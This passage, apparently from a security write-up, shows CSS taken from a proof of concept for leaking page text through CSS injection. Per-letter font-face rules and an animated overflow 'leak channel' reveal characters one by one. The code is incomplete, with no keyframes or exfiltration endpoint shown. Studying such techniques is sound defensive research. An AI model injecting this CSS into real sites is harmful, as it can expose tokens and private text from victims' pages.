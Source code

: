 Check the code extracted from the PoC:

```css
/* comic sans is high (lol) and causes a vertical overflow */
@font-face{font-family:has_A;src:local('Comic Sans MS');unicode-range:U+41;font-style:monospace;}
@font-face{font-family:has_B;src:local('Comic Sans MS');unicode-range:U+42;font-style:monospace;}
@font-face{font-family:has_C;src:local('Comic Sans MS');unicode-range:U+43;font-style:monospace;}
@font-face{font-family:has_D;src:local('Comic Sans MS');unicode-range:U+44;font-style:monospace;}
@font-face{font-family:has_E;src:local('Comic Sans MS');unicode-range:U+45;font-style:monospace;}
@font-face{font-family:has_F;src:local('Comic Sans MS');unicode-range:U+46;font-style:monospace;}
@font-face{font-family:has_G;src:local('Comic Sans MS');unicode-range:U+47;font-style:monospace;}
@font-face{font-family:has_H;src:local('Comic Sans MS');unicode-range:U+48;font-style:monospace;}
@font-face{font-family:has_I;src:local('Comic Sans MS');unicode-range:U+49;font-style:monospace;}
@font-face{font-family:has_J;src:local('Comic Sans MS');unicode-range:U+4a;font-style:monospace;}
@font-face{font-family:has_K;src:local('Comic Sans MS');unicode-range:U+4b;font-style:monospace;}
@font-face{font-family:has_L;src:local('Comic Sans MS');unicode-range:U+4c;font-style:monospace;}
@font-face{font-family:has_M;src:local('Comic Sans MS');unicode-range:U+4d;font-style:monospace;}
@font-face{font-family:has_N;src:local('Comic Sans MS');unicode-range:U+4e;font-style:monospace;}
@font-face{font-family:has_O;src:local('Comic Sans MS');unicode-range:U+4f;font-style:monospace;}
@font-face{font-family:has_P;src:local('Comic Sans MS');unicode-range:U+50;font-style:monospace;}
@font-face{font-family:has_Q;src:local('Comic Sans MS');unicode-range:U+51;font-style:monospace;}
@font-face{font-family:has_R;src:local('Comic Sans MS');unicode-range:U+52;font-style:monospace;}
@font-face{font-family:has_S;src:local('Comic Sans MS');unicode-range:U+53;font-style:monospace;}
@font-face{font-family:has_T;src:local('Comic Sans MS');unicode-range:U+54;font-style:monospace;}
@font-face{font-family:has_U;src:local('Comic Sans MS');unicode-range:U+55;font-style:monospace;}
@font-face{font-family:has_V;src:local('Comic Sans MS');unicode-range:U+56;font-style:monospace;}
@font-face{font-family:has_W;src:local('Comic Sans MS');unicode-range:U+57;font-style:monospace;}
@font-face{font-family:has_X;src:local('Comic Sans MS');unicode-range:U+58;font-style:monospace;}
@font-face{font-family:has_Y;src:local('Comic Sans MS');unicode-range:U+59;font-style:monospace;}
@font-face{font-family:has_Z;src:local('Comic Sans MS');unicode-range:U+5a;font-style:monospace;}
@font-face{font-family:has_0;src:local('Comic Sans MS');unicode-range:U+30;font-style:monospace;}
@font-face{font-family:has_1;src:local('Comic Sans MS');unicode-range:U+31;font-style:monospace;}
@font-face{font-family:has_2;src:local('Comic Sans MS');unicode-range:U+32;font-style:monospace;}
@font-face{font-family:has_3;src:local('Comic Sans MS');unicode-range:U+33;font-style:monospace;}
@font-face{font-family:has_4;src:local('Comic Sans MS');unicode-range:U+34;font-style:monospace;}
@font-face{font-family:has_5;src:local('Comic Sans MS');unicode-range:U+35;font-style:monospace;}
@font-face{font-family:has_6;src:local('Comic Sans MS');unicode-range:U+36;font-style:monospace;}
@font-face{font-family:has_7;src:local('Comic Sans MS');unicode-range:U+37;font-style:monospace;}
@font-face{font-family:has_8;src:local('Comic Sans MS');unicode-range:U+38;font-style:monospace;}
@font-face{font-family:has_9;src:local('Comic Sans MS');unicode-range:U+39;font-style:monospace;}
@font-face{font-family:rest;src: local('Courier New');font-style:monospace;unicode-range:U+0-10FFFF}

div.leak {
    overflow-y: auto; /* leak channel */
    overflow-x: hidden; /* remove false positives */
    height: 40px; /* comic sans capitals exceed this height */
    font-size: 0px; /* make suffix invisible */
    letter-spacing: 0px; /* separation */
    word-break: break-all; /* small width split words in lines */
    font-family: rest; /* default */
    background: grey; /* default */
    width: 0px; /* initial value */
    animation: loop step-end 200s 0s, trychar step-end 2s 0s; /* animations: trychar duration must be 1/100th of loop duration */
    animation-iteration-count: 1, infinite; /* single width iteration, repeat trychar one per width increase (or infinite) */
}

div.leak::first-line{
    font-size: 30px; /* prefix is visible in first line */
    text-transform: uppercase; /* only capital letters leak */
}

```